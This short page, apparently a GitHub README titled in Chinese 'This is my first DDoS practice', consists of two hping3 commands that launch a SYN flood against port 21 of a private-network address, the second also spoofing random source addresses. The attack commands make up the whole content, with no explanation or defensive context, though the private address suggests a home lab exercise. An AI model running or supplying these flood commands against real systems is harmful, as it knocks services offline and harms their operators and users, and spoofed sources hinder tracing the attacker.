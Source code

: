 
### 這是我第一次的DDos實作。

<code>hping3 -V  -c 100000 -d 100 -S -p 21 --flood 192.168.43.129</code>
<code>hping3 -V  -c 100000 -d 100 -S -p 21 --flood --rand-source 192.168.43.129</code>
